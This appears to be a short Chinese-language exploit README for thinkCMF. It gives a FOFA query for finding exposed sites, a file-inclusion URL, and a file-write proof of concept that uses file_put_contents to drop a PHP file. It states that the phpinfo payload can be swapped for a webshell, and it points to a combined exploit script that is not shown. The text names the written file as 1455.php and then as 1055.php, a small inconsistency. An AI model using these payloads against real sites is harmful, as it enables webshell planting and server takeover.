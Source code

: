 # FOFA语法：app="thinkCMF"



# thinkCMF文件包含漏洞

## 一、简介

thinkCMF它是一个开源的，支持[swoole](https://so.csdn.net/so/search?q=swoole&spm=1001.2101.3001.7020)的开源内容管理框架，让web开发更快，节约时间，这个框架的话是基于thinkphp的二次开发框架，所以说在我们国内还是有大部分的网站使用到这样的一个框架的。

## 二、漏洞利用

https://xxxx/index.php?a=display&templateFile=README.md

然后我们去到浏览器界面输入README.md回车，就可以发现我们能够成功的包含出这样的一个代码。

![image-20220718140532111](C:\Users\16337\AppData\Roaming\Typora\typora-user-images\image-20220718140532111.png)

证明该文件包含漏洞有效



# thinkCMF文件写入漏洞

## 一、漏洞利用

[https://xx/index.php?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('1455.php','<?php phpinfo();?>')</php>]()

poc为`?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('1455.php','<?php phpinfo();?>')</php>`

再请求1055.php之后即可看到phpinfo界面

利用时可将<?php  phpinfo();?>替换为webshell，写入成功后连接。

![image-20220718142724470](C:\Users\16337\AppData\Roaming\Typora\typora-user-images\image-20220718142724470.png)



## 我将这两个漏洞结合，编写了综合利用脚本，见**ThinkCMF.py**